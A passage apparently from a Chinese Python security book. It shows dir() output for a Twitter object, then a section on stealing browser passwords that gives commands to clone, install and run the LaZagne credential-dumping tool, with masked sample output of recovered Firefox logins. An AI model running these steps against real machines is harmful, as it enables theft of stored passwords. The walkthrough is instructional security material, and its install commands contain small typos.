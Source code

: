 第 14 行创建的 Twitter 类对象，`tweet=Tweet(tweet_dict)`，有许多其他方法和变量，可以提供有关推文的详细信息，如日期、时间、喜欢和转发。可以通过运行`dir(tweet)`来获取不同支持的方法，其输出如下：

```py
['__class__', '__contains__', '__delattr__', '__delitem__', '__dict__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__getitem__', '__gt__', '__hash__', '__init__', '__iter__', '__le__', '__len__', '__lt__', '__module__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__setitem__', '__sizeof__', '__str__', '__subclasshook__', '__weakref__', 'all_text', 'bio', 'clear', 'copy', 'created_at_datetime', 'created_at_seconds', 'created_at_string', 'embedded_tweet', 'favorite_count', 'follower_count', 'following_count', 'fromkeys', 'generator', 'geo_coordinates', 'get', 'gnip_matching_rules', 'hashtags', 'id', 'in_reply_to_screen_name', 'in_reply_to_status_id', 'in_reply_to_user_id', 'items', 'keys', 'klout_id', 'klout_influence_topics', 'klout_interest_topics', 'klout_profile', 'klout_score', 'lang', 'media_urls', 'most_unrolled_urls', 'name', 'original_format', 'poll_options', 'pop', 'popitem', 'profile_location', 'quote_count', 'quote_or_rt_text', 'quoted_tweet', 'retweet_count', 'retweeted_tweet', 'screen_name', 'setdefault', 'text', 'tweet_links', 'tweet_type', 'update', 'user_entered_text', 'user_id', 'user_mentions', 'values']
```

# 用 Python 窃取浏览器密码

Python 在网络安全方面是一种非常强大的语言。有大量令人惊叹的攻击性和防御性安全工具是用 Python 编写的，而且很容易定制和修改以满足我们的需求。在本节中，我们将看到如何使用 Python 来窃取存储在浏览器中的密码。同样，由于我们已经有了许多令人惊叹的工具可供使用，我们不会重复造轮子，而是重复利用已有的工具。让我们按照以下步骤下载 GitHub 存储库：

```py
git clone https://github.com/AlessandroZ/LaZagne.git
cd LaZange
pip3 install -r requirement.txt
```

接下来，只需运行该工具以查看浏览器密码，如下所示：

```py
python3.5 laZagne.py browsers

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

------------------- Firefox passwords -----------------

[+] Password found !!!
URL: https://www.packtpub.com
Login: b'*****'
Password: b'******'

[+] Password found !!!
URL: http://myworld.du.ae
Login: b'******'
Password: b'******'

[+] Password found !!!
URL: https://www.genymotion.com
Login: b'***********'
Password: b'*********'

[+] Password found !!!
URL: https://www.udemy.com
Login: b'*********'
Password: b'********'

[+] Password found !!!
```